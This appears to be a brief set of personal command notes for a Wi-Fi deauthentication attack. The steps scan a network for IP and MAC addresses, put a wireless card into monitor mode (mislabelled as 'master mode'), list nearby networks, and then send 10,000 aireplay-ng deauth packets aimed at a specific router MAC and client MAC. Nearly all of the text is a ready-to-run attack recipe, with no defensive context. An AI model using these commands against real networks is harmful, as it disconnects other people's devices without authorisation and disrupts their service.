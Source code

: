 this is to scan the network for the ip's and mac addresses:
sudo arp-scan -l --interface=wlan0

to view current wifi card status:
sudo airmon-ng

to enable master mode on the wifi card:
sudo airmon-ng start wlx18a6f71d610c

to view the available networks:
sudo airodump-ng mon0

to actually send the deauth packages, first address is the mac of the router, second is the target, mon0 is the name of the interface made by airmon in previous commands:
sudo aireplay-ng -0 10000 -a C0:05:C2:D4:37:09 -c 64:a6:51:8f:c8:56 --ignore-negative-one mon0

